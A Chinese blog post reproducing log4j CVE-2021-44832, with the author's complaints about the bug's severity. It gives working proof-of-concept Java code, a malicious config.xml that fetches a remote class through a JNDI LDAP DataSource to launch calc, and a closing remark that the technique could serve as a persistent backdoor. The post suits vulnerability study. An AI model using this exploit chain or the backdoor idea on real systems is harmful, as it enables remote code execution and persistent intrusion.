

# CVE-2021-44832 log4j_2.17.0 RCE 复现与吐槽 - Highness_DragonFly - 博客园

> 原文：[`www.cnblogs.com/HighnessDragonfly/p/15744138.html`](https://www.cnblogs.com/HighnessDragonfly/p/15744138.html)

先说一句，这傻 x 洞能给 cve 就离谱，大半夜给人喊起来浪费时间看了一个小时。
先说利用条件：
需要加载“特定”的配置文件信息，或者说实际利用中需要能够修改配置文件(你都能替换配置文件了，还要啥 log4j 啊)。
然后因为 log4j2.17.0 已经实际上默认关闭了 jndi 的使用，还需要对方真的手动打开这个配置才能执行。
实际上约等于本地弹弹计算器的漏洞。
真的能随便改配置文件，我估计大佬们洒洒水，几十个 RCE 没啥问题。

代码直接用了发现者给的：
[原文链接](https://checkmarx.com/blog/cve-2021-44832-apache-log4j-2-17-0-arbitrary-code-execution-via-jdbcappender-datasource-element/ "原文链接")

```
import java.util.*;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class log4j {
    static {
        System.setProperty("log4j2.configurationFile","http://127.0.0.1:8888/config.xml");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");
    }
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) {
    }
} 
```

需要远程加载配置文件，python 启动一个 http 服务，配置文件内容如下：


```
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="error">
    <Appenders>
        <JDBC name="databaseAppender" tableName="dbo.application_log">
            <DataSource jndiName="ldap://127.0.0.1:1389/Basic/Command/calc.exe" />
            <!--手动替换的配置文件里，通过 jndi 获取远程数据源，加载恶意类-->
            <Column name="eventDate" isEventTimestamp="true" />
            <Column name="level" pattern="%level" />
            <Column name="logger" pattern="%logger" />
            <Column name="message" pattern="%message" />
            <Column name="exception" pattern="%ex{full}" />
        </JDBC>
    </Appenders>
    <Loggers>
        <Root level="warn">
            <AppenderRef ref="databaseAppender"/>
        </Root>
    </Loggers>
</Configuration> 
```

成功弹了计算器：


**debug 过程**
org.apache.logging.log4j.core.appender.db.jdbc.FactoryMethodConnectionSource(createConnectionSource)
从这往里 F7


最后用 Twitter 上老外的一句话结尾：

不过有一说一，事后想一想，作为一个持久化的后门还算有点意义。